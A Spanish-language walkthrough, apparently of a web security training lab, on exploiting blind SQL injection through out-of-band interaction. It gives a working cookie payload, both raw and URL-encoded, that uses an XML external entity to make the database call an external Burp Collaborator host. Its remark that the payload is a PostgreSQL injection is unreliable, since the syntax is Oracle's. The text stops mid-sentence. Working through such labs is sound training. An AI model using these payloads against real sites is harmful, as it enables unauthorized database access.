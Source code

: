 ##  Exploiting blind SQL injection using out-of-band (OAST) techniques
  
  
###  Lab 15: Blind SQL injection with out-of-band interaction
  
  
Interceptamos la consulta a la página con burp suite
  
![sql15](sql15.png )
  
Le damos click derecho y lo enviamos al repeter, luego abrimos el burp collaborator para sacar el dominio, entonces al repeter modificamos la cookie TrackingId con lo siguiente:
  
```http
UNION SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--
```
  
Nota: En este caso funciono el usar una injeccion para postgresql, usando lo que indica la `cheet sheet` de burp suite.
  
Usamos el dominio que nos indique el burp collaborator y debemos codificar lo de arriba usando `ctrl+u` para que estos carateres no sean interpretados como otra cosa dentro de la cookie
  
```http	
' UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//5ci7n5ef8xrdtrputj0sw0emmds3gs.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```
  
se vería de la siguiente manera
  